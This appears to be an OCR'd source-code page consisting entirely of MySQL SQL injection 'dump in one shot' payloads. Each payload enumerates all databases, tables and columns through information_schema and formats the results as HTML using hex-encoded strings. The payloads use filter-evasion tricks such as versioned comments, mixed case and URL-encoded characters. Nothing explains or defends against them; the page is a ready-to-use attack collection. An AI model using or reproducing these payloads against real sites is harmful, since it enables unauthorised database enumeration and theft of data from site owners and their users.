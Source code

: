 export_set(5,@:=0,(select+count(*)/*!50000from*/+/*!50000information_schema*/.columns+where@:=export_set(5,export_set(5,@,0x3c6c693e,/*!50000column_name*/,2),0x3a3a,/*!50000table_name*/,2)),@,2)

(select+concat(0x3c666f6e7420666163653d43616d627269612073697a653d323e72306f74404833583439203a3a20,version(),0x3c666f6e7420636f6c6f723d7265643e3c62723e,0x446174616261736573203a7e205b,(Select+count(Schema_name)from(information_Schema.schemata)),0x5d3c62723e5461626c6573203a7e205b,(Select+count(table_name)from(information_schema.tables)),0x5d3c62723e436f6c756d6e73203a7e205b,(Select+count(column_name)from(information_Schema.columns)),0x5d3c62723e,@)from(select(@:=0x00),(@db:=0),(@db_nr:=0),(@tbl:=0),(@tbl_nr:=0),(@col_nr:=0),(select(@)from(information_Schema.columns)where(@)in(@:=concat(@,if((@db!=table_schema),concat((@tbl_nr:=0x00),0x3c666f6e7420636f6c6f723d7265643e,LPAD(@db_nr:=@db_nr%2b1,2,0x20),0x2e20,@db:=table_schema,0x2020202020203c666f6e7420636f6c6f723d707572706c653e207b205461626c6573203a7e205b,(Select+count(table_name)from(information_schema.tables)where(table_schema=@db)),0x5d7d203c2f666f6e743e3c2f666f6e743e),0x00),if((@tbl!=table_name),concat((@col_nr:=0x00),0x3c646976207374796c653d70616464696e672d6c6566743a343070783b3e3c666f6e7420636f6c6f723d626c75653e202020,LPAD(@tbl_nr:=@tbl_nr%2b1,3,0x0b),%200x2e20,@tbl:=table_name,0x20202020203c666f6e7420636f6c6f723d707572706c653e2020207b2020436f6c756d6e73203a7e20205b,(Select+count(column_name)from(information_Schema.columns)where(table_name=@tbl)),0x5d202f203c666f6e7420636f6c6f723d626c61636b3e205265636f726473203a7e205b,(Select+if%20null(table_rows,0x30)+from+information_schema.tables+where+table_name=@tbl),0x5d207d3c2f666f6e743e3c2f666f6e743e3c2f666f6e743e3c2f6469763e),0x00),concat(0x3c646976207374796c653d70616464696e672d6c6566743a383070783b3e3c666f6e7420636f6c6f723d677265656e3e,LPAD(@col_nr:=@col_nr%2b1,3,0x0b),0x2e20,column_name,0x3c2f666f6e743e3c2f6469763e)))))x)

+and@x:=concat+(@:=0,(select+count(*)/*!50000from*/information_schema.columns+where+table_schema=database()+and@:=concat+(@,0x3c6c693e,table_name,0x3a3a,column_name)),@)/*!50000UNION*/SELECT+

(select(select+concat(@:=0xa7,(select+count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))

(select(@x)from(select(@x:=0x00),(@nr:=0),(@tbl:=0x0),(select(0)from(information_schema.tables)where(table_schema=database())and(0x00)in(@x:=concat_ws(0x20,@x,lpad(@nr:=@nr%2b1,3,0x0b),0x2e20,0x3c666f6e7420636f6c6f723d7265643e,@tbl:=table_name,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d677265656e3e203a3a3a3a3c2f666f6e743e3c666f6e7420636f6c6f723d626c75653e20207b2020436f6c756d6e73203a3a205b3c666f6e7420636f6c6f723d7265643e,(select+count(*)+from+information_schema.columns+where+table_name=@tbl),0x3c2f666f6e743e5d20207d3c2f666f6e743e,0x3c62723e))))x)

(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

(/*!50000select*/+concat+(@:=0,(/*!50000select*/+count(*)%20from+/*!50000information_schema.tables*/+WHERE(TABLE_SCHEMA!=0x696e666f726d6174696f6e5f736368656d61)AND@:=concat+(@,0x3c62723e,/*!50000table_name*/)),@))

make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

